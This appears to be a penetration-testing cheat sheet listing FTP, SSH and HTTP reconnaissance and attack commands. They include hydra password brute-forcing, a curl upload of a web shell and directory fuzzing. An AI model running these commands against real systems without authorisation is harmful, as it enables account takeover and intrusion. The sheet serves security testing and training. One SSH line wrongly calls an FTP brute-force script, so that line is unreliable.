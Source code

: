 #### The `.well-known` URIs

The `.well-known` standard, serves as a standardized directory within a website's root domain with a treasure-trove of information - see: https://www.iana.org/assignments/well-known-uris/well-known-uris.xhtml 

e.g.:

 - `https://pentest-experts.com/.well-known/openid-configuration`  
   JSON document containing metadata about OpenID endpoints, supported authentication methods, token issuance, etc.

#### Working with services

FTP

 - `ftp 1.2.3.4`
 - **ftp>** `ls`
 - **ftp>** `cd secret`
 - **ftp>** `get flag.txt`
 - **ftp>** `put linsploit.sh`
 - **ftp>** `bye`
 - `nmap 1.2.3.4 -p 21 --script ftp-brute --script-args userdb=/home/mark/users.txt`
 - `nmap 1.2.3.4 -p 21 --script ftp-anon`
 - `hydra -L users.txt -P rockyou.txt 1.2.3.4 ftp`
 - `hydra -l www-data -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 1.2.3.4 ftp`  
   Bruteforce a 6-8 character password using the characters a-z, A-Z and 0-9

SSH

 - `ssh root@1.2.3.4`
 - `nc 1.2.3.4 22` (Get banner)
 - `nmap 1.2.3.4 -p 22 --script ssh2-enum-algos`
 - `nmap 1.2.3.4 -p 22 --script ssh-hostkey --script-args ssh_hostkey=full`
 - `nmap 1.2.3.4 -p 22 --script ssh-auth-methods --script-args "ssh.user=test"`
 - `hydra -L users.txt -P rockyou.txt 1.2.3.4 ssh`
 - `nmap 1.2.3.4 -p 22 --script ftp-brute --script-args userdb=/home/mark/users.txt`

HTTP

 - `curl -v 1.2.3.4`
 - `curl -i -X OPTIONS 1.2.3.4`
 - `curl https://pentest-experts.com/upload/ --upload-file webshell.php`
 - `httpx https://pentest-experts.com`
 - `httpx --no-verify https://pentest-experts.com`
 - `dirb https://pentest-experts.com`
 - `links https://pentest-experts.com`
 - `lynx https://pentest-experts.com`
 - `nmap -p 443 1.2.3.4 --script ssl-enum-ciphers`
 - `nmap -p 443 1.2.3.4 --script ssl-heartbleed`
 - `nmap -p 80 1.2.3.4 --script http-enum`
 - `nmap -p 80 1.2.3.4 --script http-headers`
 - `nmap -p 80 1.2.3.4 --script http-methods`
 - `nmap -p 80 1.2.3.4 --script http-methods --script-args "http-methods.url=/webdav/"`
 - **msf5>** `use auxiliary/scanner/http/http_version`
 - **msf5>** `use auxiliary/scanner/http/brute_dirs`
 - `gobuster dir -u https://pentest-experts.com/ -w /usr/share/dirb/wordlists/common.txt -x zip,bz2,tar,gz,tgz,tar.bz2,tar.gz,old,bak,inc,ini,xml,txt,yaml,yml,conf,cnf,config,json -k -b 404,401`  
 Search for directries (`dir`) and files (`-x ...`) with the wordlist (`-w ...`) by accepting also self-signed SSL certificates(`-k`) and blacklisting 404 and 401 errorcodes (`-b ...`) as invalid URLs.
 - `ffuf -w /usr/share/dirb/wordlists/common.txt:FUZZ -u http://83.136.253.173:51317/FUZZ -recursion -recursion-depth 1 -e .asp,.aspx,.bat,.c,.cfm,.cgi,.css,.com,.dll,.exe,.hta,.htm,.html,.inc,.jhtml,.js,.jsa,.jsp,.log,.mdb,.nsf,.pcap,.php,.php2,.php3,.php4,.php5,.php6,.php7,.phps,.pht,.phtml,.pl,.phar,.reg,.sh,.shtml,.sql,.swf,.txt,.xml -v`  
   Recursive fuzzing of directory and filename with different extensions.